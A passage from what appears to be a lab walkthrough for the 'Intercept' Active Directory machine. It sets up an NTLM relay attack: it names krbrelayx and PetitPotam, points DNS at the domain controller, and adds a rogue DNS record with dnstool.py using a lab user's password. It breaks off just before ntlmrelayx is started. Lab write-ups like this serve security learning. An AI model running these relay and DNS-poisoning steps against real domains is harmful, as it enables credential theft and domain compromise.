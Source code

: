 its NOT Enforced time to PWN!

tools we need it

[krblrelayx](https://github.com/dirkjanm/krbrelayx)

[PetitPotam](https://github.com/topotam/PetitPotam)

its gonna fail if u are adding this without set ur /etc/resolv.conf 

    ➜  Intercept cat /etc/resolv.conf
    Generated by NetworkManager
    search home
    nameserver 10.10.171.245

ip adress is DC ip

    ➜  Intercept python3 krbrelayx/dnstool.py -u intercept.vl\\kathryn.spencer -p 'Chocolate1' -r osman.intercept.vl -d 10.8.2.152 --action add dc01.intercept.vl
    [-] Connecting to host...
    [-] Binding to host
    [+] Bind OK
    [-] Adding new record
    [+] LDAP operation completed successfully

lets verify it

![alt text](<../assets/images/Screenshot_2025-02-05_00_40_43.png>)

first of all start ntlmrelayx

